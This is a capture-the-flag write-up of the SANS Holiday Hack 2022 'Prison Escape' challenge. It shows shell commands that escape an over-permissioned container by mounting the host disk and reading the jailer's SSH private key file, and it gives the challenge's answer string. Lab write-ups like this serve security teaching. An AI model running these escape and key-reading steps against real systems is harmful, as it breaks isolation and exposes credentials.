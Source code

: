 # Recover the Elfen Ring: Prison Escape  
**SANS Holiday Hack Challenge 2022 – KringleCon V: Golden Rings**  
**Difficulty:** 🎄🎄🎄

## Overview  
In this challenge, I had to escape from a containerized environment and locate a secret hex string hidden in a file on the host system. Hints suggested that mounting host devices and leveraging over-permissioned containers might allow access to sensitive files outside the jail.

---

## Steps Performed

### 1. Check for Privileged Access  
Immediately attempted `sudo`, which worked without prompting for a password—confirming the container had elevated privileges.

---

### 2. Investigate Attached Devices  
Using `fdisk -l`, I discovered the container had access to `/dev/vda`, a virtual disk device:

```bash
fdisk -l
```

Output:
```
Disk /dev/vda: 2048 MB, ...
```

---

### 3. Mount the Host Filesystem  
Following the hint about mounting, I mounted `/dev/vda` to `/mnt`:

```bash
mount /dev/vda /mnt
mount | grep vda
```

This revealed a full Linux root file structure from the host:
```
/mnt/bin /mnt/boot /mnt/home /mnt/root ...
```

---

### 4. Locate the Target File  
Navigated to the expected location:

```bash
ls /mnt/home/jailer/.ssh/
cat /mnt/home/jailer/.ssh/jail.key.priv
```

The file was present and contained the private key. To extract the relevant hex string:

```bash
cat /mnt/home/jailer/.ssh/jail.key.priv | tail -n 11 | head -n 1 | cut -d " " -f 11
```

---

###  Final Answer  
**Hex string found:**  
```
082bb339ec19de4935867
```

This confirmed the solution.

---

## Outcome  
By exploiting container over-permissioning and mounting the host disk, I successfully escaped the container and accessed the host file system. The hex string was retrieved from the target SSH key file, completing the challenge.

